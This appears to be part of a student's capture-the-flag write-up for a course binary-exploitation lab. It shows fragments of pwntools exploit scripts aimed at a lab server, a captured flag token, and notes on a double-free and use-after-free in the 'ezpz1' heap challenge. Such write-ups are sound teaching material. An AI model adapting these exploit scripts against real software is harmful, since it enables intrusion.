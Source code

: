 ```
p.sendline(b'4')
p.recvuntil(b"): ", drop=True)
p.sendline(win)
# Kill the second last clone
p.recvuntil(b"Choice: ", drop = True)
p.sendline(b'h')
p.recvuntil(b"Clone ID: ", drop=True)
p.sendline(b'3')
p.interactive()
```

ezpz1
========================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNi1lenB6MSIsImlwIjoiMTE1LjEyOS4yMC4zOCIsInNlc3Npb24iOiI3YWNiODIxZC02ZGFlLTQ5YzEtYjRlMS0yNmJkMGNlZGIwNTIifQ.B9qki13wTIfqtvGkteyV4Rbt9NOoOgL_2N4gpKSF57Y}
General overview of problems faced
--------------------------------------------------------
Double free is detected
You can still set a question even if free so thats a use after free
No overflows with fgets
Heap is hard to understand
Script/Command used
---------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './ezpz1' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 18373 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

```